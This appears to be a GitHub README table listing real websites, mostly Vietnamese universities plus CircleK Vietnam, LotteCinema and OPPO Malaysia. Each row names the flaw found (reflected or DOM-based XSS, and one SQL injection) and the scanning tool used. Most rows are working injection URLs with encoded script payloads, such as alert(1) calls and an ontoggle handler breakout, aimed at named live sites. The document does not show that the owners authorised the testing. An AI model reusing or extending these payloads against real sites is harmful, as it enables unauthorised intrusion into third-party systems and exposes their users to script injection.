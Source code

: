 
| Trang  |  Link |  Type | BurpSuite  | XssStrike  |
|---|---|---|---|---|
| HANU  |  https://tinyurl.com/yybug5ru | Reflected |  **X** |   |
|  Y Dược Cần Thơ |  http://www.ctump.edu.vn/Default.aspx?tabid=86&rid=8865 |  Reflected  |  **X** | **X**  |
|Y Thái Nguyên|http://tump.edu.vn/search?kw=%3Cscript%3Ealert%28%22Xin+chao+Thai+nguyen%22%29%3C%2Fscript%3E|Reflected |**X**|**X**|
|CircleK Vietnam|https://www.circlek.com.vn/vi?s=s%e1%ba%bbdxht2%22%3e%3cscript%3ealert(1)%3c%2fscript%3eui4g5|Reflected |
|LotteCinema|http://www.lottecinemavn.com/LCHS/Contents/Cinema/Cinema-Detail.aspx?divisionCode=139407%22%3balert(1)%2f%2f190&detailDivisionCode=2&cinemaID=8005|Reflected |**X**||
|OPPO-DOM|https://www.oppo.com.my/webshaper/store/searchProd.asp?searchText=test%3C/tiTLe%3E%3CDetAILS/+/OntoGgle%09=%09(prompt)``%0Dx%3E|DOM-BASE|**X**||
|OPPO REFLECTED|https://www.oppo.com.my/webshaper/store/searchProd.asp?searchText=hiizknz%3c%2ftitle%3e%3cscript%3ealert(1)%3c%2fscript%3emtr2u|Reflected |**X**|**X**|
|Đại Học Mở HOU|https://hou.edu.vn/Ket-qua-tim-kiem/?seach=erikhav66%22%3e%3cscript%3ealert(1)%3c%2fscript%3edpvoi|Reflected|**x**|**x**|
|Học viện chính trị I|https://hcma1.hcma.vn/pages/tim-kiem.aspx?kwd=%24location.attralert%3b|Reflected |**X**||
|Đại Học Kiến Trúc|http://hau.edu.vn/Search.aspx?q=hai|Javascaript injection, SQL inj|**X**||
|Đại học mỏ đại chất|http://humg.edu.vn/pages/tim-kiem.aspx?kwd=h|DOM-BASE|**X**||
|Học viện Công nghệ Bưu chính viễn thông HN|https://portal.ptit.edu.vn/|DOM-BASE|**X**||

